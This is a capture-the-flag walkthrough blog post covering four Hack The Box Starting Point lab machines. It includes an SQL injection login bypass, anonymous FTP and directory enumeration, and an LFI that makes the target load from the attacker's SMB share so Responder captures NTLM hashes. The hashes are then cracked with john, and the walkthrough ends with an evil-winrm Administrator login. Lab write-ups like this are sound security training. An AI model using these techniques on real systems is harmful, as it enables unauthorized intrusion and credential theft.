 ```yaml
---
title: Starting Point | Tier 1
author: Zeropio
date: 2022-02-27
categories: [HackTheBox, StartingPoint]
tags: [htb]
permalink: /htb/starting-point/tier1
---
```



# Appointment
## Connection
We can search the IP in the navbar to get a website.
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/starting-point/img/Screenshot_1.jpg" weight="100%" />

We will try a basic sql-injection, login with the user:
```console
' or '1'='1' #
```
For the password we just need to write a letter.

## Flag
The flag will be in front of us.

---

# Sequel
## Connection
We will use mysql to connect, with the **root** user.
```console
> mysql -u root -h 10.129.220.35
```

## Flag
Now we are in, we just need to list all the databases and search for the flag.
```sql
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
MariaDB [(none)]> use htb;

MariaDB [htb]> show tables;
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+

MariaDB [htb]> select * from config;
```

---

# Crocodile
## Connection
We will connect with ftp and the user **anonymous**. There we can download two files, with users and passwords.
```console
> ftp 10.129.122.93
```
With **gobuster** we can check for others files in the webpage, and we can see a **login.php**:
```console
>  gobuster dir -u http://10.129.122.93/ -w /usr/share/wordlists/directory-list-2.3-small.txt -x php
```

## Flag
We will have now this page:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/starting-point/img/Screenshot_2.jpg" weight="100%" />
With the **admin** login we can enter and get our flag.

--- 

# Responder
### Enumeration
Nmap:
```
#Nmap 7.92 scan initiated Sat Apr 30 10:43:29 2022 as: nmap -p- -T5 -oN nmap2 10.129.212.41
Nmap scan report for 10.129.212.41
Host is up (0.054s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
5985/tcp open  wsman
7680/tcp open  pando-pub

#Nmap done at Sat Apr 30 10:45:10 2022 -- 1 IP address (1 host up) scanned in 101.42 seconds
```

##### We need to add the IP with the domain to access the webpage.

### Explotation
We found a <a href="{{ "/notes/web/lfi-rfi/" | prepend: site.baseurl }}">LFI</a> in the page.
Then we can start a **Samba** server and forces the page to load it:
```console
> sudo responder -I tun0 -A
```
And then:
```
http://unika.htb/index.php?page=//10.10.15.167/kali
```

This will give us the password encrypted. With **john** we can decode it:
```console
john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=netntlmv2
```
##### We can found all the previosly hashes in **/usr/share/responder/logs/Responder-Session.log**.

Finally we can exploit **winrm** and get the flag:
```console
> evil-winrm -i 10.129.212.41 -u Administrator -p badminton
```

### Flag
Finally we can get the flag in the **Desktop**.

